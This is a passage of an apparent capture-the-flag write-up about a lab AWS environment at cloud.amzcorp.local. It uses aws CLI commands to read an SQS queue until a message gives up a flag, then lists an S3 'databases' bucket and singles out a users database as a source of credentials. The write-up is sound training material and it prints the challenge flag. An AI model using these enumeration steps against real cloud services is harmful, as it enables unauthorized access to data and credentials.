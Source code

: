Using receive-message we can receive messages under this queue. The first message will show us `temperatura` but when repeated several times it will show us flag.
```
aws --endpoint-url http://cloud.amzcorp.local sqs receive-message --queue-url http://cloud.amzcorp.local/000000000000/sensor_updates | jq
{
  "Messages": [
    {
      "MessageId": "2195d706-bb53-f3aa-d2a3-ddd83f81c4da",
      "ReceiptHandle": "zvyozyqrxfacrzsnobguwjhxhnlazgxazvuzeayhnlfrdfovtsmbauyeonpfdnmsttgzsjgyxggyxchfdcwiwbkghophrzwbomkacwslfxbdvyxslibgplkzqeosrxexxicjfhhniggjktrfniwcrssndrlyxtyqucabrkbxkneqdavhobzeomkno",  
      "MD5OfBody": "7c9db777266f3ef48480f0e9773139a9",
      "Body": "Temperature: 24°c"
    }
  ]
}

aws --endpoint-url http://cloud.amzcorp.local sqs receive-message --queue-url http://cloud.amzcorp.local/000000000000/sensor_updates | jq
{
  "Messages": [
    {
      "MessageId": "56b56c7b-0e55-ffcf-47fd-446aa12861b5",
      "ReceiptHandle": "rnqrcrdcfhpdknpyhyttmjdcipbxkojhnhqcyeoyejsxpkvzjazidwhhebjaegbjxbdvfrotgmymtioyelmfvohvthrypstiauvytrdpizamhsmmqgrtydcvqjevqnotpzmitcjardeowhtmyjvcqfgfsgsdhsacznayezexwhpbdesserilnksku",  
      "MD5OfBody": "724e0f5cb704edcfa5497ec156f713e6",
      "Body": "Faulty Reading. AWS{th4ts_4_l0ng_Q}"
    }
  ]
}
```

# Demolish
We can also list the objects in the databases bucket, and the only object that caught our attention was `amzcorp_users.db` , which we can use to get the credentials.
```
aws --endpoint-url http://cloud.amzcorp.local s3api list-objects --bucket databases | jq  
{
  "Contents": [
    {
      "Key": "amzcorp_emp_data.db",
      "LastModified": "2023-09-19T16:12:38+00:00",
      "ETag": "\"6f018ec428e38f1afebcbc26e12d994a\"",
      "Size": 12288,
      "StorageClass": "STANDARD",
      "Owner": {
        "DisplayName": "webfile",
        "ID": "75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a"
      }
    },
    {
      "Key": "amzcorp_orders.db",
      "LastModified": "2023-09-19T16:12:37+00:00",
      "ETag": "\"e3650f8b06b5fcb3c72a7c53219a9053\"",
      "Size": 12288,
      "StorageClass": "STANDARD",
      "Owner": {
        "DisplayName": "webfile",
        "ID": "75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a"
      }
    },
```